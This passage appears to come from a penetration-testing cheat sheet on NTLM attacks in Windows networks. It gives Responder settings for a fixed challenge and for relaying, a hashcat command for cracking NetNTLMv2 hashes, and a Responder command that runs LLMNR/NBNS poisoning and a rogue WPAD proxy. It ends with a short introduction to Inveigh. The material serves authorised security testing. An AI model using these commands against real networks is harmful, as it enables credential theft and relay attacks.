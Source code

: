 `Responder` can be configured to make use of this specific authentication
challenge:

```
# Responder.conf file

Challenge = 1122334455667788
```

`NetNTLMv1` hashes follow the format `<USERNAME>::<HOSTNAME>:<RESPONSE>:
<RESPONSE>:<CHALLENGE>`, with `NTHASH:<RESPONSE>` being the format accepted by
`www.crack.sh`.

Otherwise, `NetNTLMv2` hashes can be cracked using `hashcat`:

```  
hashcat -m 5600 <HASHFILE> <WORDLIST> -o <OUTPUTFILE>
```

To relay `NTLM` authentication, `Responder`'s `SMB` and `HTTP` servers should
be disabled:

```
# Responder.conf file
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

With those servers turned off, the authentication attempts captured can be
automatically transmitted to `MultiRelay.py` or `ntlmrelayx.py`'s `SMB` and
`HTTP` servers for the relay attack.

`Responder` usage:

```
# -r : Enable answers for netbios wredir suffix queries
# -d : Enable answers for netbios domain suffix queries
# -w :  Start the WPAD rogue proxy server

python Responder.py -I <NETWORK_INTERFACE> -r -d -w
```

*Inveigh*

`Inveigh` is a PowerShell script that implements `LLMNR`, `NBNS`, `mDNS` /
`DNS` spoofing capabilities and can capture `NetNTLMv1` / `NetNTLMv2`
authentication requests over the `SMB` and `HTTP` / `HTTPS` protocols.  
